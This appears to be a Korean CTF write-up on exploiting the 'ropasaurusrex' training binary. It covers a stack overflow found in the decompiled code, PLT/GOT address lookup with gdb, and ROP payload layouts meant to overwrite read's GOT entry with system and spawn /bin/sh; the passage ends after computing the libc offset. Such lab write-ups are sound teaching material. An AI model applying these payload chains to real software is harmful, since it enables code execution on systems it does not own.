


## 환경셋팅
    purelledhand@purelledhand:~$ git clone https://github.com/adamdoupe/ctf-training

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$sudo docker run -p 127.0.0.1:31337:31337 -it adamdoupe/ropasaurusrex

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$sudo make run

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$ cat | nc localhost 31337
    1234
    WIN

## 바이너리 분석

    ssize_t __cdecl main()
    {
    sub_80483F4();
    return write(1, "WIN\n", 4u);
    }

    ssize_t sub_80483F4()
    {
    char buf; // [esp+10h] [ebp-88h]

    return read(0, &buf, 0x100u);
    }

이 함수에서 buf의 크기는 0x88이지만 read함수로 0x100만큼 buf에 넣는 것을 확인

>1.  system("/bin/sh")을 실행시키기 위해 인자값 "/bin/sh"을 쓰기 가능한 메모리공간에 넣어두기 (.dynamic, .data, .bss 등)
>
> 2. write@plt로부터 read함수의 got값 도출
> 
> 3. read 함수의 got와 offset값을 통해 system함수의 주소 알아내기
>
> 4. read@plt를 system함수로 got overwrite
>
> 5. system 함수 호출

### 1. 쓰기 가능한 메모리 영역에 "/bin/sh" 넣어두기

쓰기 가능한 메모리 영역 찾기

    purelledhand@purelledhand:~/ctf-training/ropasaurusrex$ objdump -x ropasaurusrex 

    Sections:
    Idx Name          Size      VMA       LMA       File off  Algn

    20 .dynamic      000000d0  08049530  08049530  00000530  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    21 .got          00000004  08049600  08049600  00000600  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    22 .got.plt      0000001c  08049604  08049604  00000604  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    23 .data         00000008  08049620  08049620  00000620  2**2
                    CONTENTS, ALLOC, LOAD, DATA
    24 .bss          00000008  08049628  08049628  00000628  2**2
                    ALLOC

"/bin/sh"을 넣을 수 있는 크기의 메모리 영역인 .dynamic섹션(0x08049530)에 넣기로 결정

>"A"*140 + read_plt + pop-pop-pop-ret + stdin + "/bin/sh" + len("/bin/sh")

이렇게 까지가 .dynamic 섹션에 "/bin/sh"을 넣는 페이로드 구성이다. 

## 2. read() 함수의 got에 저장되어 있는 값 알아내기

먼저 read, write 함수의 plt주소와 got주소를 알아내야 했다.
 IDA에서 찾은 read의 plt주소 (0x0804832c)를 따라가서 read의 got주소를 확인했다.

    (gdb) x/4i 0x0804832c
    0x804832c:	jmp    DWORD PTR ds:0x804961c
    0x8048332:	push   0x18
    0x8048337:	jmp    0x80482ec
    0x804833c:	add    BYTE PTR [eax],al

    # read_plt : 0x0804832c
    # read_got : 0x0804961c

같은 맥락으로 write의 plt주소와 got주소도 얻어낼 수 있었다.

    (gdb) x/4i 0x0804830c
    0x804830c:	jmp    DWORD PTR ds:0x8049614
    0x8048312:	push   0x8
    0x8048317:	jmp    0x80482ec
    0x804831c:	jmp    DWORD PTR ds:0x8049618

    # write_plt : 0x0804830c
    # write_got : 0x08049614

> write_plt + pop-pop-pop-ret + stdout + read_got + len(read_got)

이렇게 까지가 read함수의 got 값을 도출하는 페이로드 구성이다.

## 3. read함수 got overwrite

read함수가 호출되고 난 후 read함수의 got에는 read함수의 주소가 저장되어 있게된다.
이 때 read함수의 got 값을 system 함수의 주소로 바꿔주어 system 함수를 호출시킬 수 있다.

system함수의 주소를 read() 함수의 got로부터의 오프셋으로 표현하기

    gdb-peda$ x/x system
    0xf7e51940 <system>:	0x83
    gdb-peda$ x/x read
    0xf7eeb350 <read>:	0x65

    # offset : 0x99a10

